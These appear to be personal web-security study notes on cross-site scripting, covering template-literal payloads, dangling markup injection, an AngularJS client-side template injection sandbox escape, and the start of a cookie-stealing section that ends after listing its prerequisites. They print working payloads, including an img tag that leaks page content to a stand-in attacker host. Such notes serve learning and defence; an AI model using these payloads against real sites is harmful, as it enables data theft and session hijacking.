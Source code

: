 ###### JavaScript String Literals

Similar to Angular [[String Interpolation]], where there is JavaScript executed inside html between the ` `` ` backticks.
```
${alert(1)}
```

###### Dangling Markup Injection

Injecting an XSS payload, but not enclosing it properly.
- When the browser parses the new page, it will keep including data from the HTML of the page until an appropriate character that closes off the injection is faced.
- This allows attackers to capture data from the page, which might include sensitive information.

```
"><img src='//attacker-website.com?
```

> The Chrome browser has decided to tackle dangling markup attacks by preventing tags like `img` from defining URLs containing raw characters such as angle brackets and newlines. This will prevent attacks since the data that would otherwise be captured will generally contain those raw characters, so the attack is blocked.

---
### Client Side Template Injection

> These vulnerabilities arise when client side frameworks dynamically embed user input into the webpages.
> These frameworks scan the template and executes any expressions that it can.
> These can be exploited via XSS.

> Using `.charAt=[].join` causes the function to return all characters sent to it.
> If there are no strings allowed, by preventing quotes and double quotes, we can use `String.fromCharCode()`.
> We don't have access to `String`, so we need to use `fromCharCode()` from an actual string variable, or creating a string.
> Use `$eval()` to create strings, or the `[1]|orderBy:'String'` function.
> This String in the end can be created using `fromCharCode()`.

>An example payload would be.
```
toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
>The first line creates an empty string `''` and escapes from the Angular sandbox.
>The second line uses that string to create a string given its ASCII codes in order.
>Those ASCII codes translate to `x=alert(1)`.

---
### Exploiting XSS

###### [[Cookies]] Stealing

We are stealing a user's cookies and then using them to steal their logged in session.
- JavaScript can only access [[Cookies]] if the `HttpOnly` flag is disabled. 
- The victim must be logged in.
